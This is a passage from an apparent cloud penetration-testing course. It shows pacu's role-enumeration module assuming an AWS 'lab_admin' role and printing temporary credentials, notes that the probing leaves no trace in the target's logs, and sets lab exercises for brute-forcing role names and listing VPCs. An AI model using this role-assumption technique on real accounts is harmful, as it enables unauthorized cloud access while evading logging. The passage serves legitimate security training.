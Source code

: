 ```
[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour...

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] {
  "Credentials": {
    "AccessKeyId": "ASIAQOMAIGYUWZXRMMO2",
    "SecretAccessKey": "2UU80dtizqx3DUa9mn6033AjXKb13GXOMCy+tOUt",
    "SessionToken": "FwoGZXIvYXdzEO///////////wEaDCv5...",
    "Expiration": "2023-08-18 22:07:49+00:00"
  },
  "AssumedRoleUser": {
    "AssumedRoleId": "AROAQOMAIGYUR5KMGWT7V:dCkQ0O1y6n9KSQmGBaKJ",
    "Arn": "arn:aws:sts::123456789012:assumed-role/lab_admin/dCkQ0O1y6n9KSQmGBaKJ"
  }
}
Cleaning up the PacuIamEnumRoles-XbsIV role.
```

> Listing 46 - Running the enum_roles Module in pacu

Excellent! The tool not only helped enumerate and discover a role, it also checked if the role had enough permissions for us to use it via _assumeRole_.

We are now in the state of an _"Initial Compromise"_ and the next step will be scoping what we can achieve with our new level of access.

These examples show how an attacker can leverage the API to obtain information beyond their intended purpose. Furthermore, since these interactions with the API occur within the _attacker_'s account, all related events are logged there, leaving no trace in the target's account.

#### Labs

1. Enumerate other roles by creating a new list with the keywords: "saphire", "ruby", and "amethyst" following a dash and one of the custom name roles we created before. For example:

```
ruby-lab_admin
ruby-security_auditor
ruby-content_creator
...
amethyst-backup_restore
amethyst-content_editor
```

Write the name of the role we can assume.

Answer

2. Assume the role you found in the previous exercise and list (_describe_) all available _VPCs_ using the role privileges. You will find the proof in a tag of one of the VPCs.

Answer

## 3.4. Initial IAM Reconnaissance
